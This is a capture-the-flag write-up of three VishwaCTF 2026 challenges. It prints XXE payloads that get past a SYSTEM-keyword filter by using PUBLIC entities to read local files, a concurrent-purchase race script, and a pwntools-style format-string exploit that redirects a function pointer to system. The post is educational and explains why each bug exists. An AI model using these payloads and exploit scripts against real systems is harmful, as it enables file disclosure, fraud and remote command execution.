



:::caution
Spoilers ahead. This post includes solution details, payloads, and flags.
:::

VishwaCTF 2026 was a fun one. The three challenges I picked for this post all started with a simple idea, but none of them ended there. One web challenge turned into a partial-patch XXE bypass, another became a clean race-condition exploit, and the pwn task grew from a tiny interpreter into a full command runner.

This post collects the three solves I wanted to keep: `Keymaster Secrets`, `Flag Market`, and `TinyLang`.

---

## [Web] Keymaster Secrets

`Keymaster Secrets` is the kind of web challenge I like a lot. The app says the XML issue is already fixed, so the real job is not finding a new bug class. The real job is checking whether the patch is actually complete.

### What made this challenge interesting

Three clues shaped the solve early:

- the login page clearly pointed to Apache Syncope
- the challenge description talked about XML-related bugs and a recent patch
- helper routes in `robots.txt` leaked both credentials and API documentation

That strongly suggested a filter-bypass style XXE challenge, not SQL injection or template injection.

### Step 1: Recon first, not payload first

I started with the obvious pages:

```bash
curl -isk https://keymaster.vishwactf.com/login
curl -isk https://keymaster.vishwactf.com/robots.txt
```

`robots.txt` was immediately useful:

```text
User-agent: *
Disallow: /maintenance
Disallow: /api/docs
Disallow: /rest/
```

That gave me two very promising unauthenticated pages.

### Step 2: Use the maintenance leak to get in

The `/maintenance` page contained an HTML comment with temporary admin credentials:

```html
<!--
  TODO (ops-team): remove before go-live
  Emergency console access for maintenance window:
    Username : admin
    Password : S3cur3Syncop3!@dm1n
-->
```

So I logged in normally:

```bash
curl -isk -c /tmp/keymaster.cookies -b /tmp/keymaster.cookies \
  -X POST https://keymaster.vishwactf.com/login \
  -d 'username=admin&password=S3cur3Syncop3!%40dm1n'
```

Once I had a valid session, the XML attack surface mattered much more.

### Step 3: Read the docs and find the real target

The API docs exposed a very suspicious endpoint:

```text
POST /rest/keymaster/params
```

The docs also made two important points clear:

- the request body was XML
- `SYSTEM` entities were blocked by the patch

That wording was a red flag. If a fix talks about one exact keyword, there is a good chance it is only filtering strings instead of disabling entity resolution correctly.

I first sent a safe baseline request:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<parameter>
  <key>rt1</key>
  <value>abc</value>
  <type>STRING</type>
</parameter>
```

The endpoint reflected the parsed value back in JSON:

```json
{"parameter":{"key":"rt1","type":"STRING","value":"abc"},"status":"created"}
```

That made verification very easy.

### Step 4: Prove the patch only blocks `SYSTEM`

The classic XXE payload with `SYSTEM` was rejected:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE parameter [
  <!ENTITY xxe SYSTEM "file:///etc/hostname">
]>
<parameter>
  <key>rt2</key>
  <value>&xxe;</value>
  <type>STRING</type>
</parameter>
```

Response:

```json
{
  "code":"XML_SECURITY_VIOLATION",
  "error":"Security policy violation: XML documents must not contain SYSTEM entity declarations. Request blocked.",
  "status":400
}
```

Then I swapped `SYSTEM` for `PUBLIC`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE parameter [
  <!ENTITY xxe PUBLIC "id" "file:///etc/hostname">
]>
<parameter>
  <key>rt3</key>
  <value>&xxe;</value>
  <type>STRING</type>
</parameter>
```

This time it worked:

```json
{"parameter":{"key":"rt3","type":"STRING","value":"7c0eddc758e7"},"status":"created"}
```

At that point the bug was confirmed. The parser still resolved external entities, and the patch only blocked one declaration style.

### Step 5: Use the XXE primitive to get useful data

After confirming the bypass, I reused the same XML shape for local file reads:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE parameter [
  <!ENTITY xxe PUBLIC "id" "file:///etc/passwd">
]>
<parameter>
  <key>cfg1</key>
  <value>&xxe;</value>
  <type>STRING</type>
</parameter>
```

That worked, but the shortest route to the flag was even better: the application already supported listing the stored Keymaster parameters.

So I fetched the full parameter dump:

```bash
curl -ks -b /tmp/keymaster.cookies \
  https://keymaster.vishwactf.com/rest/keymaster/params
```

Inside that response, the flag appeared directly in stored values:

```json
{"key":"codex_pub_1775295918078","type":"STRING","value":"VishwaCTF{XXE_1nj3ct10n_4p4ch3_sync0p3_CVE-2026-23795}"}
```

:::note[Flag]
`VishwaCTF{XXE_1nj3ct10n_4p4ch3_sync0p3_CVE-2026-23795}`
:::

### Why the vulnerability existed

The root cause was a weak, pattern-based defense. The application tried to reject `SYSTEM`, but it did not harden the XML parser itself. That left `PUBLIC` entity resolution available, so the XXE was still there in practice.

### Concept map



---

## [Web] Flag Market

`Flag Market` was a very clean business-logic challenge. The frontend practically told me what mattered, and the only real question was whether the server handled concurrent purchases safely.

### What made this challenge interesting

The application made four things obvious very quickly:

- the interesting item was `flag_artifact`
- one fragment cost `1000`
- a new account started with `1000` credits
- the flag appeared once the inventory count reached `10`

That mismatch was the main hint. If I can only buy one fragment normally, then the purchase flow is probably where the bug lives.

### Step 1: Read the frontend as API documentation

The page loaded a React app from `/app.js`, and the important routes were visible in the client code:

```javascript
return fetch(`/api${path}`, { method, headers, body: body ? JSON.stringify(body) : undefined, credentials: 'include' })

const res = await api('/buy', { method: 'POST', body: { itemId } });
const res = await api('/refund', { method: 'POST', body: { itemId } });

<ProgressMeter current={user.inventory?.['flag_artifact'] || 0} total={10} />
```

That gave me the whole plan:

1. create a fresh account
2. talk to `/api/buy` and `/api/refund` directly
3. push `flag_artifact` to 10 or more

### Step 2: Confirm the normal flow first

Before trying races, I checked the normal single-request behavior:

```text
PATH /signup STATUS 200
{"success":true,"username":"b314","coins":1000,"inventory":{}}

PATH /buy STATUS 200
{"success":true,"coins":0,"inventoryCount":1,"message":"ACQUIRED"}

PATH /refund STATUS 200
{"success":true,"message":"ROLLBACK_OK","coins":1000,"inventoryCount":0}
```

So the straight-line logic was fine.

### Step 3: Race the buy endpoint

Then I sent 10 concurrent `/api/buy` requests for `flag_artifact` on a fresh account.

That is where the bug showed up:

```text
USER c111
BUY 1  200 {"success":true,"coins":0,"inventoryCount":1,"message":"ACQUIRED"}
BUY 4  200 {"success":true,"coins":0,"inventoryCount":2,"message":"ACQUIRED"}
BUY 5  200 {"success":true,"coins":0,"inventoryCount":5,"message":"ACQUIRED"}
BUY 6  200 {"success":true,"coins":0,"inventoryCount":6,"message":"ACQUIRED"}
BUY 7  200 {"success":true,"coins":0,"inventoryCount":4,"message":"ACQUIRED"}
BUY 8  200 {"success":true,"coins":0,"inventoryCount":3,"message":"ACQUIRED"}

USERSTATE {"success":true,"username":"c111","coins":0,"inventory":{"flag_artifact":6}}
```

I only had enough money for one fragment, but the server gave me six. The out-of-order counts were also a strong sign that overlapping writes were happening without proper synchronization.

### Step 4: Turn one good race into the full solve

Once the first burst gave me extra fragments, the rest was simple:

1. refund one fragment
2. get back `1000` credits
3. keep the extra race-earned fragments
4. burst `/api/buy` again

I used a short Node.js script for this because the app was just a JSON API and `fetch` was enough.

The key exploit shape was:

```javascript
async function batchBuy(n = 10) {
  return Promise.all(
    Array.from({ length: n }, () =>
      req('/buy', {
        method: 'POST',
        body: { itemId: 'flag_artifact' },
      })
    )
  );
}
```

Then:

```javascript
const round1 = await batchBuy(10);
const refund = await req('/refund', {
  method: 'POST',
  body: { itemId: 'flag_artifact' },
});
const round2 = await batchBuy(10);
```

### Step 5: Capture the flag from the JSON response

The final run looked like this:

```text
signup {"success":true,"username":"w104","coins":1000,"inventory":{}}

round1_successes
{"success":true,"coins":0,"inventoryCount":1,"message":"ACQUIRED"}
{"success":true,"coins":0,"inventoryCount":2,"message":"ACQUIRED"}
{"success":true,"coins":0,"inventoryCount":6,"message":"ACQUIRED"}

refund {"success":true,"message":"ROLLBACK_OK","coins":1000,"inventoryCount":5}

round2_successes
{"success":true,"coins":0,"inventoryCount":11,"message":"ACQUIRED","flag":"VishwaCTF{r4ced_t0_v1ct0ry_044_40_tw0_t1me5}"}
```

So the flag came back directly from `/api/buy` once the inventory crossed the threshold.

:::note[Flag]
`VishwaCTF{r4ced_t0_v1ct0ry_044_40_tw0_t1me5}`
:::

### Why this bug existed

The real issue was that the buy path was not atomic. Multiple requests read the same balance, all passed the affordability check, and then updated shared state in a way that let one payment become many purchases.

### Concept map



---

## [Pwn] TinyLang

`TinyLang` looked small enough to be a warm-up, but it was actually the most technical solve in this set. The language only supports `let` and `print`, yet a bad global-table layout turns that tiny feature set into both a format-string primitive and command execution.

### What made this challenge interesting

The core bug is very tidy:

- the `print` path walks the variable table as if each entry is `0x14` bytes wide
- the `let` path writes `0x40` bytes for each entry

That mismatch means the writer is much wider than the reader. After enough `let` commands, new variables start corrupting nearby globals in `.bss`.

### Step 1: Do the usual binary triage

I started with quick recon:

```bash
file main_ltbov0N
checksec file main_ltbov0N
strings -n 4 main_ltbov0N
```

The useful details were:

```text
ELF 64-bit LSB pie executable, x86-64, dynamically linked, stripped

Partial RELRO
No Canary Found
NX enabled
PIE Enabled

Interesting strings:
let
print
TinyLang v1.1
session started at: %p
Error: %s
```

Two details mattered immediately:

- the startup banner leaked a PIE pointer
- `system` was imported

### Step 2: Understand the two important handlers

The solve lives in the `let` and `print` logic.

The disassembly showed the mismatch clearly:

```asm
; print lookup helper
mov r14d, dword ptr [rip+0x2e07]    ; count at 0x4140
lea r13, [rip+0x2d52]               ; table at 0x40a0
add rbp, 0x14                       ; stride = 0x14

; let helper
lea rdx, [rip+0x2c97]               ; table base 0x40a0
lea rax, [rax+rax*4]                ; count * 5
movups [rdx+rax*4], xmm0            ; copy 0x40 bytes total
```

In one sentence:

> the reader thinks entries are 0x14-byte slots, but the writer treats them like 0x40-byte records.

That is the whole bug.

### Step 3: Build the memory map and choose the target

My notes for the `.bss` area looked like this:

```text
0x40a0  variable table
...
0x4140  count
0x4148  function pointer
0x4150  unknown-variable handler
```

The perfect target was the unknown-variable handler at `0x4150`. If I could overwrite that function pointer, I would not need ROP yet. I could simply redirect it to a more useful function.

### Step 4: Stage one - replace the failure handler with `printf`

The first five `let` commands were harmless fillers:

```python
for i in range(5):
    payload += f'let v{i} = {i}\n'.encode()
```

Then the 6th and 7th writes did the real work.

The 6th `let` overwrote the global count so the next write landed in the right place:

```python
name = b'S' * 16
payload += b'let ' + name + b' = ' + b'A' * 41 + p32(5) + b'\n'
```

The 7th `let` replaced the unknown-variable handler with `printf@plt`:

```python
payload += b'let ' + name + b' = ' + b'B' * 21 + p32(6) + b'C' * 12 + p64(base + 0x1080) + b'\n'
```

Now a failed lookup stopped behaving like this:

```c
printf("Error: %s\n", input)
```

and started behaving like this:

```c
printf(input)
```

That gave me a format-string primitive.

### Step 5: Leak libc through the format string

First I confirmed that the primitive worked with a simple probe:

```text
print AAA %p %p %p %p
```

Then I used an appended-pointer trick for controlled reads:

```python
def leak_qword(io, addr):
    marker = b"XYZMARK"
    fmt = b"%17$.8s" + marker
    line = b"print " + fmt
    line += b"\x00" * (56 - len(line))
    line += p64(addr) + b"\n"
    io.send(line)
    out = io.recvuntil(marker)
    return u64(out[:-len(marker)].ljust(8, b"\x00"))
```

The important leak was `printf@got`:

```python
printf_addr = leak_qword(io, base + 0x4028)
```

That gave me the real libc address I needed.

### Step 6: Compute `system` and write it back

The remote libc matched glibc 2.36, and the relevant offsets were:

```text
printf = 0x525b0
system = 0x4c490
```

So:

```python
libc_base = printf_addr - 0x525b0
system_addr = libc_base + 0x4c490
```

I then rewrote `0x4150` with four `%hn` writes:

```python
def write_qword_hn(io, addr, value, first_idx=19):
    parts = [(i, (value >> (16 * i)) & 0xffff) for i in range(4)]
    parts.sort(key=lambda t: t[1])
    ...
```

And applied it here:

```python
write_qword_hn(io, base + 0x4150, system_addr)
```

### Step 7: Trigger command execution and read the flag

Once the handler pointed to `system`, any failed `print` became a shell command.

So the final trigger was just:

```python
io.send(b'print env|grep ^FLAG=; false\n')
print(io.recvrepeat(1).decode())
```

Remote output:

```text
FLAG=V15hw4CTF{cu570m_14ngu4g3_f4113d_a7201a17}
```

:::note[Flag]
`V15hw4CTF{cu570m_14ngu4g3_f4113d_a7201a17}`
:::

### Why this exploit path was clean

I liked this solve because it used one bug in a very controlled way:

1. abuse the table mismatch to overwrite one function pointer
2. turn that into `printf(user_input)`
3. leak libc
4. overwrite the same pointer again
5. turn failed lookup into `system(command)`

That is much cleaner than forcing a full ROP chain when the program already gives an indirect call target in writable memory.

### Concept map



---

## References

- [OWASP XML External Entity Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html) - practical XXE prevention guidance relevant to `Keymaster Secrets`
- [lxml XMLParser documentation](https://lxml.de/5.0/apidoc/lxml.etree.html) - useful background for parser behavior and entity handling
- [PortSwigger Web Security Academy - Race conditions](https://portswigger.net/web-security/race-conditions) - strong reference for the bug class in `Flag Market`
- [CWE-362: Concurrent Execution using Shared Resource with Improper Synchronization](https://cwe.mitre.org/data/definitions/362.html) - formal description of the race-condition weakness
- [pwntools documentation](https://docs.pwntools.com/) - exploit scripting reference for `TinyLang`
- [libc.rip](https://libc.rip/) - libc identification from leaked symbol offsets

## Closing notes

This set felt nicely balanced. `Keymaster Secrets` rewarded careful reading of a bad patch, `Flag Market` rewarded fast API thinking, and `TinyLang` rewarded patient memory-layout reasoning. All three were different, but each one had a very clear moment where the challenge stopped looking complicated and started looking structured.
